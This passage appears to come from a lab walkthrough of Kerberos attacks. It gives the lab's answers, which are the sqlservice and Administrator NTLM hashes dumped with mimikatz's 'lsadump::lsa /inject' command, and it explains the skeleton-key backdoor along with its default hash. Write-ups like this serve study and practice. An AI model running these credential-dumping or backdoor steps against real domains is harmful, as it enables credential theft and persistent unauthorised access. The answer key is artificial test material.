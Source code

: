 ### Question 1: What is the SQLService NTLM Hash?

`cd40c9ed96265531b21fc5b1dafcfb0a`

running `lsadump::lsa /inject /name:sqlservice` will give us our answer.

![](<../../.gitbook/assets/image (133).png>)

### Question 2: What is the Administrator NTLM Hash?

`2777b7fec870e04dda00cd7260f7bee6`

Ruunning `lsadump::lsa /inject /name:Administrator` will give us our answer.

![](<../../.gitbook/assets/image (187).png>)

## Task 8

Unlike the golden and silver ticket attacks, a Kerberos backdoor is much more subtle because it acts similar to a rootkit by implanting itself into the memory of the domain forest allowing itself access to any of the machines with a master password.&#x20;

The Kerberos backdoor works by implanting a skeleton key that abuses the way that the AS-REQ validates encrypted timestamps. A skeleton key only works using Kerberos RC4 encryption.&#x20;

The default hash for a mimikatz skeleton key is _`60BA4FCADC466C7A033C178194C03DF6`_ which makes the password `mimikatz`
